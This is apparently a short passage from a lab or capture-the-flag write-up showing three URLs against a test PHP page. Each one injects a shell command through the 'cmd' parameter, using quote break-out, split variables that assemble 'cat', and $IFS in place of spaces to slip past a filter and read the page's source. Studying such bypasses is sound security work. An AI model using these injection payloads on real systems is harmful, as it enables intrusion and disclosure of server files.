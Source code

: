`http://127.0.0.1:9999/test9.php?cmd=./';a=c;b=at;c=test9.php;$a$b<$c;'`

![](assets/markdown-img-paste-20180416161433667.png)


`http://10.101.177.100:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b$IFS$c;%27`

![](assets/markdown-img-paste-20180416161749704.png)


`http://10.101.177.100:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b$IFS$4$c;%27`
